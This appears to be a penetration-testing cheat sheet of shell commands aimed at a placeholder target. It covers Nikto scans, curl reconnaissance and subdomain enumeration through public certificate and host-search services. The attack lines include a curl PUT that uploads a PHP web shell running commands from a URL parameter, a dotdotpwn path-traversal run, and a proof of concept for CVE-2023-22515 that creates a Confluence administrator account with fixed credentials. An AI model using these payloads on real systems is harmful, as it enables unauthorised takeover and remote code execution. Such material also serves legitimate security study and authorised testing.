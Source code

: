 

# Nikto
nikto -h http://INSERTIPADDRESS

# Nikto with squid proxy
nikto -h INSERTIPADDRESS -useproxy http://INSERTIPADDRESS:4444

# Get header
curl -i INSERTIPADDRESS

# Get everything
curl -i -L INSERTIPADDRESS

# Check for title and all links
curl INSERTIPADDRESS -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'

# Look at page with just text
curl INSERTIPADDRESS -s -L | html2text -width '99' | uniq

# Check if it is possible to upload
curl -v -X OPTIONS http://INSERTIPADDRESS/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERTIPADDRESS/test/shell.php

dotdotpwn.pl -m http -h INSERTIPADDRESS -M GET -o unix




##  
curl -s "https://crt.sh/?q=%25.$DM&output=json" | jq -r '.[].name_value' 2>/dev/null | sed 's/\*\.//g' | sort -u | grep -o "\w.*$DM" | anew -q .tmp/cert.list


##  
curl -s "https://api.hackertarget.com/hostsearch/?q=$DM" | grep -o "\w.*$DM" | anew -q .tmp/htarget.list


##  
curl -s "https://riddler.io/search/exportcsv?q=pld:$DM" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | grep -o "\w.*$DM" | anew -q .tmp/riddler.list



##   PoC for CVE-2023-22515: 
curl -k -X POST -H "X-Atlassian-Token: no-check" --data-raw "username=adm1n&fullName=admin&email=admin@confluence&password=adm1n&confirm=adm1n&setup-next-button=Next" http://confluence/setup/setupadministrator.action 
##   (login with adm1n/adm1n)

